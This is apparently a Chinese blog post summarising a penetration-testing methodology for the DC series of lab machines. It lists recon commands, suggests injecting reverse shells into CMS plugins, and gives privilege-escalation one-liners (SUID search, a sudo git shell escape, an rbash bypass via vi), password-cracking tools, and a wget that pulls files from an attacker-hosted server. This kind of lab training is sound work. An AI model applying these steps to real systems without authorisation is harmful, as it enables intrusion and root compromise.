 ```yaml
---
title: DC系列靶机总结
date: 2021/12/12
tags: walkthrough
categories: 渗透测试
top_img: https://herozql.oss-cn-beijing.aliyuncs.com/bg_pic/bing_17.jpg
cover: https://herozql.oss-cn-beijing.aliyuncs.com/bg_pic/bing_17.jpg
---
```




# DC系列靶机总结

## (一) 信息收集

- 扫描局域网内靶机地址:

```
sudo arp-scan -l
```

- 扫描靶机开放的端口以及详细的信息:

```
nmap -A -sV xxx_ip (查CMS种类)
```

- 扫描web目录(,寻找登录后台, 寻找可疑文件):

```
dirb  //一般
dirbuster  //可以使用dirb的字典
dirsearch  //较好
goburster
```

- 眼光不应该局限于页面的主要内容,可以使用Google去查询靶机web或其他有关于靶机的内容



## (二) 漏洞搜寻

- 首先进入靶机HTTP服务(如果有的话), 尝试sql注入, 密码暴力破解(八成不行)

- 从搜寻的CMS(如果能发现)寻找CMS的漏洞 //Google是个好帮手
- 使用相应的CMS扫描工具对靶机IP继续进行扫描,查找用户以及相关的信息
- 从网站中看看有没有什么可以提交的页面,发掘是否有文件包含漏洞
- 如果进入CMS管理系统,查看是否可以使用或下载PHP插件,在PHP页面中插入反弹shell, 或者寻找里面插件的漏洞

- 在网站中发送信息,如果可疑,用brupsuite拦截,并修改发送的值, 尝试sql注入以及文件包含

- 文件包含漏洞查询时可以使用模糊测试工具wfuzz, 查看输入的命令被包含在哪个文件中

- 使用searchsploit查询漏洞文件

````
searchsploit XXX   //搜索漏洞  
searchsploit -m exp_name  //查询漏洞所在地址
````



 

## (三) 权限提升

- 使用msf或者nc等工具登录靶机控制界面可能没有交互式shell这时需要:

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

- 查看是否能进行suid提权

```
find / -user root -perm -4000 -print 2>/dev/null
```

- 查看当前用户是否具有某些root用户权限:
- 向文件中添加内容直接获得root权限,
- 使用 sudo  xxx 执行命令`(别忘记前面加sudo)`

```
sudo -l
```

- 查看里面有没有什么特殊的文件, 使用漏洞搜寻查找是否具有漏洞,是否可以据此提权
- git提权(sudo -l发现)

```
sudo git -p help config
# 末行模式下书写
!/bin/sh
```



## (四) 密码破解

- 在得知CMS类型的时候就可以使用相关的工具进行密码破解,比如wp-scan
- 使用hydra进行破解(一般破解ssh密码时使用这个
- cewl 抓取网站信息来充当密码
- john破解哈希值

## (五) 杂记

- rbash绕过(vi方法)

```
//选择一个文件,使用vi打开
//末行模式下:
(1)  :set shell=/bin/bash
(2)  :shell
```

- 配置hosts文件,有时DNS无法解析靶机地址,这时我们就需要自己在攻击机器上添加靶机的IP以及主机名

```
cd /etc/hosts
```

- 靶机之间的文件传输

```
// 使用python在攻击机器上开启http服务,在靶机上wget下载.注意攻击机器http服务的开启要在传送的文件同一目录下,靶机的下载要在/tmp文件夹或其他具有弱权限的文件夹下下载

//攻击机器 python2
python -m SimpleHTTPServer xxx_port
//攻击机器 python3
python -m http.server xxx_port

//靶机
wget http://xxxx_ip:xx_port/xxx_file
```

- 注意查看靶机里面邮件内容可能有惊喜

